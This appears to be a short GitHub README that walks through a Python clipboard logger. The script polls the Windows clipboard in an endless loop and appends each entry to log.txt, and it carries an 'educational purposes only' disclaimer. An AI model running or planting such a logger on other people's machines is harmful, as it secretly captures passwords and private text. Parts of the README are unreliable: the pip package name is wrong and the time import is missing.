 You Need to install win32clipboard, if you don't already have it, you can install it by running: `pip install win32clipboard`

THIS IS FOR EDUCATIONAL PERPOSES ONLY, IF YOU INDEND ON USING THIS FOR THE WRONG PURPOSE I WILL NOT BE RESPONSIBlE FOR YOUR ACTIONS, YOU WILL BE DOING SO AT YOUR OWN RISK.

Code Breakdown
1. `Clipboard Access:`
```python
import win32clipboard
```
The `win32clipboard` module allows you to interact with the Windows clipboard, enabling you to read its contents.

2. `Loop to Capture Clipboard Data:`
```python
while True:
    win32clipboard.OpenClipboard()
    data = win32clipboard.GetClipboardData()
    win32clipboard.CloseClipboard()
```
Inside an infinite loop, the script opens the clipboard, retrieves the current content (`data`), and closes the clipboard.
`win32clipboard.GetClipboardData()` fetches the text content of the clipboard.

3. `Saving Clipboard Data to a File:`
```python
with open('log.txt', 'a+') as f:
    f.write(data + '\n')
```
Each new clipboard entry is appended to `log.txt` along with a newline for easy reading.

Enjoy :)

4. `Sleep Interval:`
```python
time.sleep(5)
```
The code pauses for 5 seconds between each clipboard capture to reduce CPU usage and avoid overwhelming the clipboard with frequent reads
